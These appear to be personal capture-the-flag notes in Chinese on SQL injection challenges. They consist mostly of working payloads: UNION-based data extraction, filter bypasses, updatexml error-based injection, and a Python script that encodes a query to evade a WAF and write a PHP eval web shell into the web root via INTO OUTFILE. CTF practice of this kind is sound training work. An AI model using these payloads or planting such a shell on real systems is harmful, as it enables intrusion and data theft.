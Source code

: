 # SQL做题记录

## ichunqiu

#### *WEB SQL 50PT*

过滤order select

<>绕过

```
表名：
id=1%20union%20sel<>ect%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27sqli%27%20%23
列名：
id=1%20union%20sel<>ect%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27info%27%20%23
payload：
id=1%20union%20sel<>ect%201,flAg_T5ZNdrm,3%20from%20info%23
```



## BUGKU

#### *成绩单查询*

```
0' union select 1,2,3,4#
0' union select 1,database(),3,4#		skctf_flag
0' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='skctf_flag'#				fl4g,sc
0' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='fl4g'#					  skctf_flag
payload:
0' union select 1,skctf_flag,3,4 from fl4g#
```



## 安恒杯

#### *write a shell*

```mysql
mysql> SET @A="SELECT database()";
Query OK, 0 rows affected (0.00 sec)

mysql> PREPARE st FROM  @A;
Query OK, 0 rows affected (0.00 sec)
Statement prepared

mysql> EXECUTE st;
+------------+
| database() |
+------------+
| WEB        |
+------------+
```

#####  *mysqli_multi_query* 特殊函数

可以多行注入，用到execute语句

payload：

```python
import requests 

Query0 = "SET ^a="
# Query1_raw = "SELECT GRANTEE,PRIVILEGE_TYPE,3,4,IS_GRANTABLE FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE='FILE'"
# Query1_raw = "show variables like '%secure_file_priv%'"
Query1_raw = "SELECT '<?php eval($_POST['h']);?>' into outfile '/var/www/html/favicon/shaobao.php'"
Query1_pass_waf = "concat({})"
Query2 = ";PREPARE st from ^a;EXECUTE st;"

tmp_str = ""
for i in Query1_raw:
    tmp_str+="CHAR({}),".format(ord(i))

print(Query0+Query1_pass_waf.format(tmp_str[0:-1])+Query2)
```

#### *ezsql*

load_file





### SQL-LABS

#### *Less-5*

### 报错注入

#### <font color=green>*updatexml*</font>



```
1' and updatexml(null,concat(0x3a,([YOUR QUERY])),null)--
```



爆当前数据库：

```
1' and updatexml(null,concat(0x3a,(database())),null)--
```

爆表：
```
1' and updatexml(null,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database())),null)%23
```

爆列：

```
1' and updatexml(null,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_name='emails')),null)%23
```

爆值

```
1' and updatexml(null,concat(0x3a,(select group_concat(id) from emails)),null)%23
```

### 安恒杯1月

```
polygon 报错
```

```
select * from flask where 1 and polygon(列名)
```

### NJUCTF-2018 滴！晨跑打卡
```
(preg_match("/[\s#*-]+/",$id))
```
过滤了空格，注释符`#-`
参考：https://lyiang.wordpress.com/2015/05/19/sql%E6%B3%A8%E5%85%A5%EF%BC%9A%E8%BF%87%E6%BB%A4%E6%B3%A8%E9%87%8A%E7%AC%A6/
过滤空格，参考https://lyiang.wordpress.com/2015/05/31/sql%E6%B3%A8%E5%85%A5%EF%BC%9A%E7%BB%95%E8%BF%87%E7%A9%BA%E6%A0%BC%E6%B3%A8%E5%85%A5/

注释符过滤可以构造恒真语句，再单引号闭合
```
SELECT * FROM users WHERE id='1' union select database(),1,1,1 and '1'='1'
```

空格使用`%a0`绕过

构造：
```
id=1'%a0union%a0select%a0database(),1,1,1%a0and%a0'1'='1'
```
